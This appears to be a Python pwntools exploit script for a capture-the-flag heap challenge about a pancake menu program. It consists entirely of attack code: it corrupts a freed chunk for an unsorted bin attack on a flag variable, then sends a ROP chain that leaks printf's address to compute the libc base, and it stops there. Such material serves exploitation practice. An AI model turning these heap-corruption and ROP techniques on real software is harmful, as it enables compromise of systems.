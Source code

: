 ```py
def create_menu(content):
    p.sendline(b"1")
    p.recvuntil(b"Please enter your choice: ")
    if len(content) >= 0x80:
        p.sendline(b"3") 
    elif len(content) >= 0x40:
        p.sendline(b"2")
    elif len(content) >= 0x20:
        p.sendline(b"1")
    else:
        print("Size not existing!")
        return
    p.recvuntil(b"Please enter your pancake ingredients: ")
    p.sendline(content)
    p.recvuntil(b"your choice: ")

def free_menu(idx):
    p.sendline(b"3")
    p.recvuntil(b"Please enter the menu to delete: ")
    p.sendline(idx)
    p.recvuntil(b"your choice: ")

p.recvuntil(b"your choice: ")
create_menu(b"A" * 0x80)
create_menu(b"B" * 0x80)
create_menu(b"C" * 0x40)
free_menu(b"1")
# unsorted bin attack
target = 0x6020d0 # special_flag
p.sendline(b"2")
p.recvuntil(b"Please enter your menu to edit : ")
p.sendline(b"0")
p.recvuntil(b"Please enter your choice: ")
p.sendline(b"0")
buf = b"D" * 0x83 # why 0x83?
buf += struct.pack("<Q", 0x0)
buf += struct.pack("<Q", 0x91)
buf += struct.pack("<Q", 0x0)
buf += struct.pack("<Q", target-0x10)
buf += b"E" * 0x8
p.sendline(buf)
p.recvuntil(b"your choice: ")
#p.interactive()
# now lets trigger the write by allocating a new menu
create_menu("A" * 0x80)

fill_up_buffer = "a" * 128 + "b" * 8

#################
# leak libc address
#################
p.sendline(b"1234")
rop = ROP(elf)
rop.raw(fill_up_buffer)
rop.puts(elf.got["printf"])
rop.call(elf.entry)
#print(rop.dump())
p.sendline(rop.chain())
p.recvuntil(b"feedback.\n")

packed_printf_address = p.recvline()[:-1]
printf_address = unpack(packed_printf_address.ljust(8, b"\x00"))
libc.address = printf_address - libc.symbols["printf"]
```